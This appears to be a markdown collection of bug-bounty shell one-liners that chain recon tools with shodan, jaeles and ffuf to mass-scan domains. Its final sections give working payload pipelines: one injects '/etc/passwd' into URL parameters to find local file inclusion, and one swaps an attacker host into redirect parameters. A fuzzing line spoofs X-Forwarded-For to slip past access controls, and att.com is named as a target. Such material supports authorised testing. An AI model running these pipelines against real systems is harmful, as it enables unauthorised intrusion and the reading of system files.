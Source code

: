 ```bash
echo "domain" | waybackurls | httpx -silent -timeout 2 -threads 100 | gf redirect | anew
```

### Using shodan to jaeles "How did I find a critical today? well as i said it was very simple, using shodan and jaeles".

- [Explained comand](https://bit.ly/2QQfY0l)

```bash
shodan domain domain| awk '{print $3}'|  httpx -silent | anew | xargs -I@ jaeles scan -c 100 -s /jaeles-signatures/ -u @
```
### Using Chaos to jaeles "How did I find a critical today?.

- [Explained comand](https://bit.ly/2YXiK8N)

```bash
chaos -d domain | httpx -silent | anew | xargs -I@ jaeles scan -c 100 -s /jaeles-signatures/ -u @ 
```

### Using shodan to jaeles
- [Explained comand](https://bit.ly/2Dkmycu)

```bash
domain="domaintotest";shodan domain $domain | awk -v domain="$domain" '{print $1"."domain}'| httpx -threads 300 | anew shodanHostsUp | xargs -I@ -P3 sh -c 'jaeles -c 300 scan -s jaeles-signatures/ -u @'| anew JaelesShodanHosts 
```

### Search to files using assetfinder and ffuf

- [Explained comand](https://bit.ly/2Go3Ba4)

```bash
assetfinder att.com | sed 's#*.# #g' | httpx -silent -threads 10 | xargs -I@ sh -c 'ffuf -w path.txt -u @/FUZZ -mc 200 -H "Content-Type: application/json" -t 150 -H "X-Forwarded-For:127.0.0.1"'
```
### Local File Inclusion
> @dwisiswant0

```bash
gau HOST | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

### Open-redirect
> @dwisiswant0

```bash
export LHOST="URL"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```
